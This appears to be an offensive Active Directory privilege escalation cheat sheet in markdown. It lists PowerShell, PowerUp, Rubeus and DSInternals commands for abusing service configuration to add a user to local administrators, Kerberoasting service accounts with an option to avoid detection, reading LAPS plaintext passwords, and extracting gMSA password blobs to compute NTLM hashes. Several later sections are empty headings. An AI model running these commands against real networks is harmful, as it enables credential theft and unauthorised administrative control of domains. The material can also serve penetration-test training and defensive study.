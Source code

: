 # Privilege Escalation

- [Service Running](#service-running)
- [Kerberos](#kerberos)
- [LAPS](#laps)
- [gMSA](#gmsa)
- [Deleguation](#deleguation)
    - [Unconstrained Deleguation](#unconstrained-delegation)
    - [Constrained Delegation](#constrained-delegation)
    - [Ressource Based Constrained Delegation](#resource-based-constrained-delegation)
    - [Constrained Delegation - Kerberos Only](#constrained-delegation---kerberos-only)
    - [Constrained Delegation with Protocol Transition](#constrained-delegation-with-protocol-transition)
- [DLL Hijacking](#dll-hijacking)
- [Group Membership](#group-membership)
- [Tool list](#tool-list)
     

## Service running 

### Enumeration

Display all service running (powerhsell)
```
    Get-wmiObject -Class win32_servce | select pathname
```

PowerUp

Get services with unquoted paths and a space in their name
```
    Get-ServiceUnquoted -Verbose
```

Get services where the current user can write to its binary path or change arguments to the binary
```
    Get-ModifiableServiceFile -Verbose
```

Get the services whose configuration current user can modify
```
    Get-ModifiableService -Verbose
```

### Exploitation

Using PowerUp
```
    Invoke-ServiceAbuse -Name <service> -Username <domain>\<username> -Verbose
```

Using AccessChk
```
    accesschk64.exe -uwcqv '<user>' *
    sc.exe config <service> binPath= "net localgroup administrators <domain>\<username> /add"
    sc.exe stop <service>
    sc.exe start <service>
```

## Kerberos

### Enumeration

Find user accounts used as Service accounts using AD-Module
```
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Find user accounts used as Service accounts using Powerview
```
    Get-DomainUser –SPN
```

Use Rubeus to list Kerberoast stats
```
    Rubeus.exe kerberoast /stats
```

To avoid detections based on Encryption Downgrade
```
    Rubeus.exe kerberoast /stats /rc4opsec
```

### Exploitation

Use Rubeus to request a TGS
```
    Rubeus.exe kerberoast /user:<serviceaccount> /simple
    Rubeus.exe kerberoast /user:<serviceaccount> /simple /rc4opsec
```

Kerberoast all possible accounts
```
    Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

## LAPS

### Enumeration

To find users who can read the passwords in clear text machines in OUs using powerview
```
    Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName$_.SecurityIdentifier);$_}
```

To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text using AD-Module
```
    See Get-LapsPermissions.ps1
```

To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text using LAPS module
```
    Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
    Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

### Exploitation

Using powerview 
```
    Get-DomainObject -Identity <target> | select -ExpandProperty ms-mcs-admpwd
```

Using Active Directory module :
```
	Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

Using LAPS module :
```
	Get-AdmPwdPassword -ComputerName <targetmachine>
```

## gMSA

### Enumeration

Using ADModule :
```
	Get-ADServiceAccount -Filter *
```
	
Using PowerView :
```
	Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```	
Read it using ADModule:
```
	Get-ADServiceAccount -Identity <user> -Properties * | select PrincipalsAllowedToRetrieveManagedPassword	
```

Enumerate the Principals that can read the password blob:
```
	Get-ADServiceAccount -Identity <user> -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

### Exploitation

Use ADModule to read and DSInternals to compute NTLM hash
```
    $Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
    . .\DSInternals.psd1
    $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
    ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

## Deleguation

### Unconstrained Delegation

#### Enumeration 

Using Powerview
```
Get-DomainComputer -UnConstrained
```

ActiveDirectory module
```
	Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	Get-ADUser -Filter {TrustedForDelegation -eq $True}
```



### Constrained Delegation

### Resource-based Constrained Delegation

### Constrained Delegation - Kerberos Only

### Constrained Delegation with Protocol Transition

## DLL Hijacking


## Group Membership

## Tool list
